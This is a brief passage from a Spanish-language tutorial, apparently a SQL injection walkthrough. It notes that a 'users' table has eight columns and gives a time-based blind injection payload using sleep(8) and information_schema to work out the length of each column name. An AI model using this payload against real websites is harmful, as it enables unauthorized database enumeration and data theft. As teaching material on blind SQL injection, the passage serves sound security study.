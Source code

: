 ![av. cant. de col](/assets/img/screens/av_cant_col2.png)

Hay 8 columnas en la tabla "users".

<br>
Averiguando la cantidad de caracteres de las columnas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(length((SELECT column_name FROM information_schema.columns WHERE table_name="users" LIMIT x,1))=x,sleep(8),null);#</font></pre>
